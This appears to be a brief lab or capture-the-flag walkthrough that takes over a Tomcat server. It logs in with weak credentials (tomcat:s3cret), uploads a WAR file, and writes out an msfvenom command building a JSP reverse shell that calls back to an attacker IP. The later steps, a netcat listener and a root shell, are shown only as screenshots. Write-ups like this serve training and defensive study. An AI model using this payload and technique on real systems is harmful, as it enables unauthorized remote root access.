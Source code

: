 Attack Vector 2

Logged in with tomcat:s3cret

Notice that you can upload war files

Make a shell via msfvenom
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.214 LPORT=5678 war > shell.war`
![64c00824db58592690aab95c0674c72d.png](../../../_resources/e8e1e61a5ea341d2b7a96bcf38441402.png)

Start an nc listener
![9749751d284a19f61b6bc3af4f488ead.png](../../../_resources/3b2dad634fd749bc8507fc2f6a13165c.png)


We have a shell on the nc listener
![ffa471ffa499cfa96693d00b8d4635c9.png](../../../_resources/31244758f5ab4d55bc41f40ef3e867c7.png)

Check who you are... you're root!
![766e10a467708c4800cde1af0ced1688.png](../../../_resources/25966b19703146f8b8925d8c9309e7fb.png)

Get a better shell
![cb3d6ceb98a320408f3d7193aec5cf42.png](../../../_resources/a9f43adc86b44dcaada71de70aed43ae.png)


